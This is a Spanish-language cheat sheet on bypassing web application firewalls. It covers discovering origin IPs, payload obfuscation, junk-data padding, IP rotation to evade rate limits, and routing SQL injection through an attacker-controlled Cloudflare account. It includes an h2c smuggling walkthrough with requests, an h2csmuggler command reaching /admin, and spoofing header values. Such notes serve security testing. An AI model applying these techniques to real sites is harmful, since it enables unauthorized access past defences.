

## IP Server

Si encuentras la IP original del sitio web y la agregas a tu /etc/hosts puedes probar el sitio sin WAF.

## ¿Cómo encontrarlas?

### Configuración del email

Es posible buscar la IP Origen del Server utilizando el sistema de reset de contraseña, registro de usuario. Si este envia un correo, es posible ver los detalles del mail, y puede que la ip de envio, sea la ip origen del server:



### CTI - Tools 

Busca literalmente el nombre del dominio o su ASN

- Censys
- Shodan
- Alienvault - https://otx.alienvault.com/api/v1/indicators/hostname/dominio.com/url_list?limit=5000&page=1
- SecurityTrails
- VirusTotal - https://www.virustotal.com/vtapi/v2/domain/report?apiKey=APIKEY&domain=sitio.com
- Fofa
- Netlass
- GrowScan - https://urlscan.io/api/v1/search?q=domain:sitio.com&size=10000
- Zoomeye
- https://viewdns.info/
- https://mxtoolbox.com/spf.aspx

> Pro tip: Armate tus oneliners con curl, grep, sed, etc... Para que solo saques las IPs

### Favicon

Puedes buscar el hash del icono y ver si en alguna de estás tools se encuentra un sitio similar

- Favfreak
- https://favicons.teamtailor-cdn.com/
- https://favicon-hash.kmsec.uk/

### Ping

Así es por más ridiculo que parezca, tirale un ping al sitio

```bash
ping -c 5 sitio.com
```

### dnsrecon

```bash
dnsrecon -d sitio.com
```


> Una vez que tienes la IP puedes corroborar con censys o shodan o el navegador y agregar al /etc/hosts

Ejemplo `/etc/hosts`:

```
dominio.com     192.128.23.1
```

## Ofuscar / Url Encode

- Prueba lenguajes esotericos cómo jsfuck, o ahí hazle un research de que tipo de lenguajes acepta el tipo del sitio.
- Prueba doble urlenconde en tus payloads.
- En hex, en base64, etc...

> No te aseguro que funcione todo lo que está acá es cuestión de ir probando

## Twitter o X

Busca en twitter o telegram o sitios así payloads de la vulne que crees que tienes y ve si funciona algun payload de ahí :))

## Oversized junk data

Prueba mandar kb de data basura antes del payload que te bloquea muchas veces los wafs solo leen cierta cantidad de bytes y lo demas lo ignoran.

- https://github.com/assetnote/nowafpls

## Fuzzing atras de un WAF

Para evitar el bloqueo de IP por realizar demasiadas solicitudes (fuerza bruta o escaneos), usa una arquitectura distribuida, y mantener los hilos de forma que no te vaya a bloquear el rate limit

Al utilizar funciones serverless (como AWS Lambda), cada solicitud proviene de una dirección IP distinta y efímera. Esto impide que el WAF identifique y bloquee una fuente única de ataque.

Tools:

IP Rotate: Plugin de Burp Suite que rota IPs mediante AWS API Gateway:
- https://github.com/portswigger/ip-rotate

Fireprox: Genera una URL de API Gateway para hacer peticiones tool-agnostic 
- https://github.com/ustayready/fireprox

Shadow Clone: Permite ejecutar escaneos masivos (listas de hosts o directorios) utilizando serverless compute para procesar tareas en paralelo de forma económica y eficiente
- https://github.com/fyoorer/ShadowClone

## Bypass mediante el mismo WAF

Configurar un WAF propio hacia la IP de origen para evadir restricciones de TLS o listas blancas. Algunos WAFs protegen el origen permitiendo solo tráfico que provenga de sus propias IPs (o certificados TLS específicos). Si el atacante conoce la IP de origen, puede configurar su propia cuenta en el mismo proveedor de WAF, apuntar el DNS al origen y configurar las reglas de seguridad al mínimo. Así, el tráfico legítimo y el malicioso parecen provenir de un entorno confiable del proveedor.

### Ejemplo Práctico

1. **La Víctima (`victima.com`)**:
   - Tiene la IP de origen expuesta o descubierta: `203.0.113.42`.
   - Su servidor web tiene un firewall local (`iptables`) que **solo acepta** conexiones si vienen de los rangos de IP oficiales de Cloudflare.
   - Tiene activadas reglas estrictas de WAF para bloquear ataques como Inyección SQL (SQLi).

2. **El Atacante (`atacante.com`)**:
   - Crea una cuenta gratuita en Cloudflare por ejemplo y registra el dominio `atacante.com`.
   - En el panel de DNS de su cuenta, crea un registro que apunta directamente a la IP de la víctima:  
     `DNS A -> atacante.com -> 203.0.113.42`
   - En su panel de seguridad de Cloudflare, **desactiva** por completo el WAF, el modo "I'm under attack" y los retos de JavaScript (CAPTCHAs).

3. **El Resultado del Bypass**:
   - Si el atacante envía un payload malicioso directamente a la víctima:
     `GET https://victima.com' UNION SELECT...` -> **[403 Forbidden]** (El WAF de la víctima lo bloquea).
   - Si el atacante envía el mismo payload a través de su propio dominio:
     `GET https://atacante.com' UNION SELECT...` -> **[200 OK]** (El WAF del atacante no lo inspecciona, Cloudflare enruta el paquete hacia la IP `203.0.113.42`, el firewall de la víctima ve una IP legítima de Cloudflare y el backend procesa el ataque).

### BreakingWAF: La Falacia de la Lista Blanca de IPs en CDNs (Akamai, Imperva, AWS, Fastly)
- **Alcance:** Afecta a más del 90% de las aplicaciones web protegidas por WAFs en la nube que comparten infraestructura perimetral.
- **Error del Administrador:** Creer que porque el tráfico proviene de una IP propiedad de Akamai o Imperva, ese tráfico ya fue "limpiado" por el WAF del dueño del sitio web.

#### Comportamiento por plataforma:
1. **Imperva:** Si el origen solo valida las IPs de Incapsula/Imperva, cualquier inquilino malicioso en la plataforma puede usar la red para tunelizar payloads SQLi/XSS normalizados.
2. **Akamai:** Oficialmente categorizado por ellos como un "Riesgo Inherente de Configuración". Akamai delega la responsabilidad de la validación del Host y el origen directamente en el cliente final.


## H2C Smuggling

Técnica de último recurso para infraestructuras internas o proxies que soportan HTTP/2

Se aprovecha de proxies o balanceadores de carga que permiten la actualización de HTTP/1.1 a HTTP/2. Si el WAF no inspecciona adecuadamente la solicitud después de la actualización, es posible "pasar de contrabando" (smuggling) tráfico hacia el servidor interno, saltándose las reglas de filtrado que se aplican solo a la capa de borde.


### Entorno de la Prueba
- **Dominio Objetivo:** `https://target.com`
- **Ruta Protegida por el WAF:** `https://target.com` (Devuelve `403 Forbidden` al intentar acceder normalmente).
- **Servidor Backend vulnerable:** Apache Tomcat o Nginx mal configurado que soporta `h2c` internamente.

---

### Fase 1: Petición de Inicialización (Upgrade Malicioso)

El atacante envía una petición HTTP/1.1 legítima en apariencia, pero solicita actualizar el protocolo a `h2c` utilizando un encabezado `Connection` modificado para engañar al proxy.

```http
GET / HTTP/1.1
Host: target.com
Upgrade: h2c
Connection: Upgrade, HTTP2-Settings
HTTP2-Settings: AAMAAABkAAQAAP__
User-Agent: Mozilla/5.0
```
### ¿Qué es la cabecera `HTTP2-Settings: AAMAAABkAAQAAP__`?
- **Propósito:** Es un requisito obligatorio del estándar HTTP/2 para conexiones `h2c` (texto plano).
- **Qué contiene:** Es una cadena en **Base64URL** que oculta bytes binarios. Esos bytes le dicen al backend cómo configurar los límites y parámetros del nuevo canal HTTP/2 (ej. tamaño máximo de tramas).
- **Por qué se usa en el exploit:** Si no la envías en tu petición de `Upgrade`, el backend responderá con un error y no abrirá el túnel. Al WAF no le importa porque lo ve como texto aleatorio, pero para el backend es la llave para activar el protocolo binario.

#### Comportamiento en la Red:
1. El **WAF** ve el encabezado `Upgrade: h2c` y `Connection: Upgrade`. Como no inspecciona el tráfico binario posterior a una actualización, acepta la conexión y la transfiere al backend.
2. El **Backend** responde con un estado `101`:
   ```http
   HTTP/1.1 101 Switching Protocols
   Upgrade: h2c
   Connection: Upgrade
   ```
3. A partir de este microsegundo, **el WAF entra en modo "Túnel Pasivo" (TCP de paso directo)** y deja de analizar los datos de este socket.

---

### Fase 2: Envío de Carga Útil en el Túnel Oculto (El Bypass)

Una vez que el túnel TCP está abierto y el WAF está ciego, utiliza la herramienta `h2csmuggler` para enviar tramas binarias multiplexadas de HTTP/2 directamente al servidor interno.

#### Comando de Explotación con `h2csmuggler`:
```bash
# Executing h2c smuggling to request the forbidden /admin endpoint through the tunnel
h2csmuggler -x https://target.com -X GET -H "Host: target.com" /admin
```

#### Lo que sucede "dentro" del cable (Invisible para el WAF):
El WAF solo ve pasar bytes binarios aleatorios, pero el Backend recibe la siguiente petición HTTP/2 pura descodificada:

```http
:method: GET
:path: /admin
:scheme: http
:authority: target.com
```

### Resultado Exitoso
El backend procesa la petición `/admin` de forma local (creyendo que viene de una fuente de confianza interna) y devuelve el recurso restringido a través del túnel.

```http
HTTP/2 200 OK
Content-Type: text/html
Content-Length: 4502

<html>
<head><title>Admin Dashboard</title></head>
<body>Bienvenido al panel de administración interna...</body>
</html>
```
**Resultado:** Acceso concedido al panel restringido. El WAF nunca se enteró de que el usuario visitó `/admin` ni pudo aplicar sus firmas de bloqueo.


## Manipulación de headers

Muchos WAFs de primera capa leen estas cabeceras para validar la IP del cliente real. Si el backend confía ciegamente en ellas sin verificar que vengan exclusivamente del WAF legítimo, puedes falsificar tu ubicación de red.

### Cabeceras de Suplantación de IP (IP Spoofing)
Sirven para hacerle creer al backend que la petición se origina de la interfaz local (`localhost`) o de un rango privado interno, lo cual suele desactivar reglas del WAF por rendimiento o excepciones de administración.

- **Headers a probar:**
  - `X-Forwarded-For: 127.0.0.1` (o pruebas IPs del segmento interno: `10.0.0.1`, `192.168.1.1`)
  - `X-Originating-IP: 127.0.0.1`
  - `X-Remote-IP: 127.0.0.1`
  - `X-Remote-Addr: 127.0.0.1`
  - `X-Client-IP: 127.0.0.1`
  - `X-Real-IP: 127.0.0.1`
  - `True-Client-IP: 127.0.0.1` (Específica de redes Akamai/Cloudflare)
  - `CF-Connecting-IP: 127.0.0.1` (Específica de Cloudflare)

### Cabeceras de Enrutamiento y Reescribir URLs (Path Smuggling)
Se usan cuando el WAF bloquea una ruta (ej. `/admin`), pero el servidor backend acepta punteros internos para reescribir la petición después de pasar el control del proxy.

- **Headers a probar:**
  - `X-Original-URL: /admin` (Envías un `GET /` al WAF, pero el backend te sirve `/admin`)
  - `X-Rewrite-URL: /admin`
  - `X-Forwarded-Host: localhost` (Engaña la lógica de generación de enlaces o redirecciones en el origen)


## Conclusión

Juega con tus payloads y ve el comportamiento del sitio, puede que el waf esté muy estricto.

- Algunos bypasses de 403 SIRVEN TAMBIEN EN LOS WAF's
- Si ya la cagaste solo desconecta tu router, espera unos segundos y vuelve a conectar el router 

## Recursos
- https://nzt-48.org/xss-filter-evasion-through-invalid-escapes
- https://owasp.org/www-chapter-frankfurt/assets/slides/21_OWASP_Frankfurt_Stammtisch.pdf
- https://dojo-yeswehack.com/learn/waf-bypass/
- https://www.youtube.com/watch?v=0OMmWtU2Y_g
- https://certitude.consulting/blog/en/using-cloudflare-to-bypass-cloudflare/


